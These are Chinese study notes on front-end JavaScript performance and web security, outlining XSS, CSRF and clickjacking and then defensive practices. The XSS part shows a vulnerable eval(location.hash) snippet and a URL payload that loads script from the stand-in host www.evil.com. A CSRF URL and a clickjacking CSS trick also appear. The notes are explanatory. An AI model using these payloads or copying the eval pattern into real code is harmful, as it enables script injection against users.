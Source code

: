 * 设置具有动画效果的DOM元素position为fixed或absolute
* 谨慎取得DOM元素的布局信息
  * 浏览器会优化连续的DOM操作
    * 使用事件托管方式绑定事件
      * 在父元素上绑定，然后判断子元素事件
    * 辅助工具 PageSpeed YSlow jsPerf
    * JavaScript性能测试库 JSLitmus

#### **ch11 JS - 高安全性**

* 国内著名的漏洞报告平台 - 乌云网
* 黑客攻击网站的主要手段有
  * SQL注入
  * 网络钓鱼
  * 跨站攻击
  * 拒绝服务攻击
* 攻击网站前端的方法
  * XSS 跨站点脚本攻击
    * 同源策略没有限制页面中加载第三方的脚本
    * 尽一切方法在目标网站上执行非目标网站上原有的脚本

```js
        <script>
            eval(location.hash.substr(1));
        </script>

        http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
```

* CSRF 跨站点请求伪造 请求来源于其他网站

```js
    http:www.a,com/del?id=21
```

* 界面操作劫持
  * 点击劫持
  * 拖放劫持
  * eg. 可见输入框内覆盖一个不可见的框

```js
        filter: alpha(opacity=0);
        opacity: 0;
        z-index: 100
```

* 不要轻易相信任何外部传入的数据
  * 不要轻易信任用户输入的数据 -&gt; 数据过滤
    * Jq中$\(''\).text\(\) 而非 html\(\)
    * 使用$\(''\).attr\(\) css\(\)
    * URL -&gt; encodeURL
    * jqencoder
    * setTimeout setInterval eval 这些函数都有安全隐患
  * 不要轻易信任任何传入的第三方数据
    * JSONP 一定要检查从第三方返回的数据格式
  * 不要仅靠JS来阻止注入
* 其他前端安全防范实践
  * cookie 设置为httpOnly
    * XSS不能通过JS获取Cookie
    * h5的localStorage
    * SSL 启用cookie的Secure设置
  * 防止网页被其他网站内嵌为iframe
    * JS阻止
